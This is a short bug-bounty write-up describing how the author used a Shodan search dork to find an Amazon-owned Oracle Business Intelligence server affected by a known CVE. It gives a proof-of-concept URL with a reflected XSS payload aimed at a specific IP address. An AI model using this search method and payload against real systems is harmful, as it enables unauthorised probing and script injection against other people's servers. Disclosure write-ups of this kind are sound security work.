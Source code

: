 ---
title: "How I found XSS vulnerability in Amazon in 5 minutes using shodan"
classes: wide
header:
  teaser: /assets/images/crackmes/shodan.jpeg
ribbon: DodgerBlue
categories:
  - bugbounty


This is my first write-up. I was scrolling through twitter and I found this great tip:


![](/assets/images/crackmes/xss.png)

So I quickly went to shodan and write this dork:

    html:">Oracle Business Intelligence"

to find the websites that is vulnerable to this CVE with organizations names so the final dork was like this:

    html:">Oracle Business Intelligence" org:amazon

I found an IP which is owned by Amazon that is vulnerable to this CVE

the final POC is :

https://52.46.133.78/bi-security-login/login.jsp?msi=false&redirect=%22%3E%3Cimg/src/onerror%3dalert(document.domain)%3E


![](/assets/images/crackmes/xss2.png)


Thank you.

